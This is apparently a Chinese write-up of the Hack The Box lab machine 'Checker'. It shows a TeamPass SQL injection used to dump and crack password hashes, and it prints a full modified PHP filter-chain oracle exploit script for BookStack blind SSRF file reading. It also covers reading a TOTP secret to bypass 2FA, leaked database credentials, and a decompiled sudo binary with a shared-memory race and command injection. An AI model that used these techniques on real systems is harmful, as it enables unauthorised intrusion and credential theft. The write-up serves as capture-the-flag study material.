## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali/Checker  
❯ nmap checker.htb -sV   

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd
8080/tcp open  http    Apache httpd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

在**checker.htb:8080**页面上发现了一个子域名：**vault**



## CVE-2023-1545

关注到**8080**端口上开放的是**Teampass**服务

搜索到了一个**SQL**注入的**CVE**漏洞

- [SQL Injection in nilsteampassnet/teampass | CVE-2023-1545 | Snyk](https://security.snyk.io/vuln/SNYK-PHP-NILSTEAMPASSNETTEAMPASS-3367612)

```
[root@kali] /home/kali/Checker  
❯ ./poc.sh http://checker.htb:8080/                                                                                                                      ⏎
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```

使用**john**进行破解得到**bob**的密码

```
bob:cheerleader
```

可以直接登录到后台



拿到**bob**的密码，可以返回到**80**端口上登录



尝试登录**reader**的账户：**hiccup-publicly-genesis**



发现需要验证码，因此无法直接登录



## **CVE-2023-6199**

登录**bookstack**页面，在源代码中找到版本信息：**23.10.2**


搜索得到一个可能存在的漏洞

- [LFR via SSRF in BookStack | Blog | Fluid Attacks](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/)

根据文中操作，会发现报错，不能直接使用



再看看文章发现需要修改文件内容才行



需要修改的是**/php\_filter\_chains\_oracle\_exploit/filters\_chain\_oracle/core**里的**requestor.py**，把**payload**插入到**img**标签中，就像下文中的一样所提及的一样。

- [Book Stack v23.10.2 - LFR via Blind SSRF | Advisories | Fluid Attacks](https://fluidattacks.com/advisories/imagination/)

这是修改过的**requestor.py**

或者也可以通过**Github**的这个**fork**

- [pwnter/php\_filter\_chains\_oracle\_exploit: A CLI to exploit parameters vulnerable to PHP filter chain error based oracle.](https://github.com/pwnter/php_filter_chains_oracle_exploit)

```
import json
import requests
import time
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.utils import merge_dicts
import re

"""
Class Requestor, defines all the request logic.
"""

class Requestor:
    def __init__(self, file_to_leak, target, parameter, data="{}", headers="{}", verb=Verb.POST, in_chain="",
                 proxy=None, time_based_attack=False, delay=0.0, json_input=False, match=False):
        self.file_to_leak = file_to_leak
        self.target = target
        self.parameter = parameter
        self.headers = headers
        self.verb = verb
        self.json_input = json_input
        self.match = match
        print("[*] The following URL is targeted : {}".format(self.target))
        print("[*] The following local file is leaked : {}".format(self.file_to_leak))
        print("[*] Running {} requests".format(self.verb.name))
        if data != "{}":
            print("[*] Additionnal data used : {}".format(data))
        if headers != "{}":
            print("[*] Additionnal headers used : {}".format(headers))
        if in_chain != "":
            print("[*] The following chain will be in each request : {}".format(in_chain))
            in_chain = "|convert.iconv.{}".format(in_chain)
        if match:
            print("[*] The following pattern will be matched for the oracle : {}".format(match))
        self.in_chain = in_chain
        self.data = json.loads(data)
        self.headers = json.loads(headers)
        self.delay = float(delay)
        if proxy:
            self.proxies = {
                'http': f'{proxy}',
                'https': f'{proxy}',
            }
        else:
            self.proxies = None
        self.instantiate_session()
        if time_based_attack:
            self.time_based_attack = self.error_handling_duration()
            print("[+] Error handling duration : {}".format(self.time_based_attack))
        else:
            self.time_based_attack = False

    """
    Instantiates a requests session for optimization
    """

    def instantiate_session(self):
        self.session = requests.Session()
        self.session.headers.update(self.headers)
        self.session.proxies = self.proxies
        self.session.verify = False

    def join(self, *x):
        return '|'.join(x)

    """
    Used to see how much time a 500 error takes to calibrate the timing attack
    """

    def error_handling_duration(self):
        chain = "convert.base64-encode"
        requ = self.req_with_response(chain)
        self.normal_response_time = requ.elapsed.total_seconds()
        self.blow_up_utf32 = 'convert.iconv.L1.UCS-4'
        self.blow_up_inf = self.join(*[self.blow_up_utf32] * 15)
        chain_triggering_error = f"convert.base64-encode|{self.blow_up_inf}"
        requ = self.req_with_response(chain_triggering_error)
        return requ.elapsed.total_seconds() - self.normal_response_time

    """
    Used to parse the option parameter sent by the user
    """

    def parse_parameter(self, filter_chain):
        data = {}
        if '[' and ']' in self.parameter:  # Parse array elements

            main_parameter = [re.search(r'^(.*?)\[', self.parameter).group(1)]
            sub_parameters = re.findall(r'\[(.*?)\]', self.parameter)
            all_params = main_parameter + sub_parameters
            json_object = {}
            temp = json_object
            for i, element in enumerate(all_params):
                if i == len(all_params) - 1:
                    temp[element] = filter_chain
                else:
                    temp[element] = {}
                    temp = temp[element]
            data = json_object
        else:
            data[self.parameter] = filter_chain
        return merge_dicts(data, self.data)

    """
    Returns the response of a request defined with all options
    """

    def req_with_response(self, s):
        if self.delay > 0:
            time.sleep(self.delay)

        filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'
        # DEBUG print(filter_chain)
        merged_data = self.parse_parameter(filter_chain)

        ####Add ↓
        import base64

        insert_base64 = base64.b64encode(filter_chain.encode('utf-8')).decode('utf-8')
        payload = f""
        merged_data[self.parameter] = payload  # Fixed indentation

        #####Add ↑

        # Make the request, the verb and data encoding is defined
        try:
            if self.verb == Verb.GET:
                requ = self.session.get(self.target, params=merged_data)
                return requ
            elif self.verb == Verb.PUT:
                if self.json_input:
                    requ = self.session.put(self.target, json=merged_data)
                else:
                    requ = self.session.put(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.DELETE:
                if self.json_input:
                    requ = self.session.delete(self.target, json=merged_data)
                else:
                    requ = self.session.delete(self.target, data=merged_data)
                return requ
            elif self.verb == Verb.POST:
                if self.json_input:
                    requ = self.session.post(self.target, json=merged_data)
                else:
                    requ = self.session.post(self.target, data=merged_data)
                return requ
        except requests.exceptions.ConnectionError:
            print("[-] Could not instantiate a connection")
            exit(1)
        return None

    """
    Used to determine if the answer trigged the error based oracle
    TODO : increase the efficiency of the time based oracle
    """

    def error_oracle(self, s):
        requ = self.req_with_response(s)

        if self.match:
            # DEBUG print("PATT", (self.match in requ.text))
            return self.match in requ.text

        if self.time_based_attack:
            # DEBUG print("ELAP", requ.elapsed.total_seconds() > ((self.time_based_attack/2)+0.01))
            return requ.elapsed.total_seconds() > ((self.time_based_attack / 2) + 0.01)

        # DEBUG print("CODE", requ.status_code == 500)
        return requ.status_code == 500
```



## Google Auth

由于之前**ssh**登录需要验证码，经过搜索我得到了他的路径

- [google/google-authenticator-libpam](https://github.com/google/google-authenticator-libpam)



在浏览**Bookstack**里面书籍的时候，发现了一个可能存在的路径



脚本的解释是：将 `/home` 目录的所有内容递归地复制到 `/backup/home_backup`

因此需要读取的文件路径就是：**/backup/home\_backup/home/reader/.google\_authenticator**



到下面这个网站去生成验证码

- [Online one-time password generator / TOTP (Google Authenticator) Online / 2FA](https://totp.app/)



大概率是时区的问题？因为每个验证码都是有时效的，大概也就几十秒。我把**VPN**调到了**US**节点就能正常登录了。

## Root

查看特殊权限命令

```
reader@checker:~$ sudo -l
Matching Defaults entries for reader on checker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User reader may run the following commands on checker:
    (ALL) NOPASSWD: /opt/hash-checker/check-leak.sh *
```

查看一下这个脚本的具体内容

```
reader@checker:~$ cat /opt/hash-checker/check-leak.sh
#!/bin/bash
source `dirname $0`/.env
USER_NAME=$(/usr/bin/echo "$1" | /usr/bin/tr -dc '[:alnum:]')
/opt/hash-checker/check_leak "$USER_NAME"
```

其中的**/opt/hash-checker/check\_leak**是一个二进制文件，无法直接查看源码

不过可以使用**IDA**进行反编译

### IDA

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  const char *v3; // rdx
  unsigned int v5; // [rsp+14h] [rbp-3Ch]
  char *v6; // [rsp+18h] [rbp-38h]
  char *v7; // [rsp+20h] [rbp-30h]
  char *v8; // [rsp+28h] [rbp-28h]
  char *v9; // [rsp+30h] [rbp-20h]
  char *s; // [rsp+40h] [rbp-10h]
  void *ptr; // [rsp+48h] [rbp-8h]

  v6 = getenv("DB_HOST");
  v7 = getenv("DB_USER");
  v8 = getenv("DB_PASSWORD");
  v9 = getenv("DB_NAME");
  if ( *(_BYTE *)(((unsigned __int64)(argv + 1) >> 3) + 0x7FFF8000) )
    __asan_report_load8(argv + 1);
  s = (char *)argv[1];
  if ( !v6 || !v7 || !v8 || !v9 )
  {
    if ( *(_BYTE *)(((unsigned __int64)&stderr >> 3) + 0x7FFF8000) )
      __asan_report_load8(&stderr);
    fwrite("Error: Missing database credentials in environment\n", 1uLL, 0x33uLL, stderr);
    __asan_handle_no_return();
    exit(1);
  }
  if ( argc != 2 )
  {
    if ( *(_BYTE *)(((unsigned __int64)argv >> 3) + 0x7FFF8000) )
      __asan_report_load8(argv);
    v3 = *argv;
    if ( *(_BYTE *)(((unsigned __int64)&stderr >> 3) + 0x7FFF8000) )
      __asan_report_load8(&stderr);
    fprintf(stderr, "Usage: %s <USER>\n", v3);
    __asan_handle_no_return();
    exit(1);
  }
  if ( !s )
    goto LABEL_40;
  if ( *(_BYTE *)(((unsigned __int64)s >> 3) + 0x7FFF8000) != 0
    && ((unsigned __int8)s & 7) >= *(_BYTE *)(((unsigned __int64)s >> 3) + 0x7FFF8000) )
  {
    __asan_report_load1(s);
  }
  if ( !*s )
  {
LABEL_40:
    if ( *(_BYTE *)(((unsigned __int64)&stderr >> 3) + 0x7FFF8000) )
      __asan_report_load8(&stderr);
    fwrite("Error: <USER> is not provided.\n", 1uLL, 0x1FuLL, stderr);
    __asan_handle_no_return();
    exit(1);
  }
  if ( strlen(s) > 0x14 )
  {
    if ( *(_BYTE *)(((unsigned __int64)&stderr >> 3) + 0x7FFF8000) )
      __asan_report_load8(&stderr);
    fwrite("Error: <USER> is too long. Maximum length is 20 characters.\n", 1uLL, 0x3CuLL, stderr);
    __asan_handle_no_return();
    exit(1);
  }
  ptr = (void *)fetch_hash_from_db(v6, v7, v8, v9, s);
  if ( ptr )
  {
    if ( (unsigned __int8)check_bcrypt_in_file("/opt/hash-checker/leaked_hashes.txt", ptr) )
    {
      puts("Password is leaked!");
      if ( *(_BYTE *)(((unsigned __int64)&edata >> 3) + 0x7FFF8000) )
        __asan_report_load8(&edata);
      fflush(edata);
      v5 = write_to_shm(ptr);
      printf("Using the shared memory 0x%X as temp location\n", v5);
      if ( *(_BYTE *)(((unsigned __int64)&edata >> 3) + 0x7FFF8000) )
        __asan_report_load8(&edata);
      fflush(edata);
      sleep(1u);
      notify_user(v6, v7, v8, v9, v5);
      clear_shared_memory(v5);
    }
    else
    {
      puts("User is safe.");
    }
    free(ptr);
  }
  else
  {
    puts("User not found in the database.");
  }
  return 0;
}
```

由于我们不知道**env**里面有什么，这个目录下的**.env**还是需要使用**filterchains**来读（有时候会失灵，不知道为什么？？？



得到数据库用户以及密码

```
bookstack:pK8HK7IHCKLCNHUJ7
```

登录后查看**user**表，发现有三个用户



因此可以使用**bob**来绕过数据库中用户的检测



值得注意的点是，这里将哈希值写入共享内存，并通知用户。然后清除共享内存。

其中有一个**sleep**的函数调用，意味着其中有一秒空隙，哈希值是存在于共享内存中的。其中的**write\_to\_shm**函数中有关于共享内存的逻辑部分。



### **write\_to\_shm**

如何获取到这个共享内存地址呢？跟进**write\_to\_shm**函数

```
__int64 __fastcall write_to_shm(const char *a1)
{
  unsigned __int64 v1; // rbx
  __int64 v2; // rax
  unsigned __int64 v3; // r12
  unsigned int v4; // eax
  time_t v5; // rax
  unsigned __int64 v6; // rcx
  unsigned int key; // [rsp+10h] [rbp-A0h]
  int shmid; // [rsp+14h] [rbp-9Ch]
  char *v10; // [rsp+20h] [rbp-90h]
  const char *s; // [rsp+28h] [rbp-88h]
  char v12[88]; // [rsp+30h] [rbp-80h] BYREF
  unsigned __int64 v13; // [rsp+88h] [rbp-28h]

  v1 = (unsigned __int64)v12;
  if ( _asan_option_detect_stack_use_after_return )
  {
    v2 = __asan_stack_malloc_0(64LL);
    if ( v2 )
      v1 = v2;
  }
  *(_QWORD *)v1 = 1102416563LL;
  *(_QWORD *)(v1 + 8) = "1 32 8 7 now:105";
  *(_QWORD *)(v1 + 16) = write_to_shm;
  v3 = v1 >> 3;
  *(_DWORD *)(v3 + 2147450880) = -235802127;
  *(_DWORD *)(v3 + 2147450884) = -202116352;
  v13 = __readfsqword(0x28u);
  v4 = time(0LL);
  srand(v4);
  key = rand() % 0xFFFFF;
  shmid = shmget(key, 0x400uLL, 950);
  if ( shmid == -1 )
  {
    perror("shmget");
    __asan_handle_no_return();
    exit(1);
  }
  v10 = (char *)shmat(shmid, 0LL, 0);
  if ( v10 == (char *)-1LL )
  {
    perror("shmat");
    __asan_handle_no_return();
    exit(1);
  }
  v5 = time(0LL);
  if ( *(_BYTE *)(((v1 + 32) >> 3) + 0x7FFF8000) )
    v5 = __asan_report_store8(v1 + 32);
  *(_QWORD *)(v1 + 32) = v5;
  s = ctime((const time_t *)(v1 + 32));
  v6 = (unsigned __int64)&s[strlen(s) - 1];
  if ( *(_BYTE *)((v6 >> 3) + 0x7FFF8000) != 0 && (char)(v6 & 7) >= *(_BYTE *)((v6 >> 3) + 0x7FFF8000) )
    __asan_report_store1(v6);
  *(_BYTE *)v6 = 0;
  snprintf(v10, 0x400uLL, "Leaked hash detected at %s > %s\n", s, a1);
  shmdt(v10);
  if ( v12 == (char *)v1 )
  {
    *(_QWORD *)((v1 >> 3) + 0x7FFF8000) = 0LL;
  }
  else
  {
    *(_QWORD *)v1 = 1172321806LL;
    *(_QWORD *)((v1 >> 3) + 0x7FFF8000) = 0xF5F5F5F5F5F5F5F5LL;
    **(_BYTE **)(v1 + 56) = 0;
  }
  return key;
}
```

注意到这里👇，使用当前时间生成随机数作为共享内存的键，尝试获取共享内存段。`shmget` 的权限设置为 `950`。

```
v4 = time(0LL);
srand(v4);
key = rand() % 0xFFFFF;
shmid = shmget(key, 0x400uLL, 950);
```

那么说，如果我们的脚本用当前时间做随机数，也可以获取到这个内存的地址咯。

### notify\_user

发现在这个函数中，存在着命令执行的语句。

**v16**变量用于存储使用 `snprintf` 计算出的格式化字符串的长度。

再次调用 `snprintf`，将格式化后的 **MySQL** 查询存储在 `command` 中。这次会实际写入字符串。

最后再**popen**执行命令

这里的**mysql**语句是直接拼接的，可以使用引号逃逸掉，在后面拼接命令

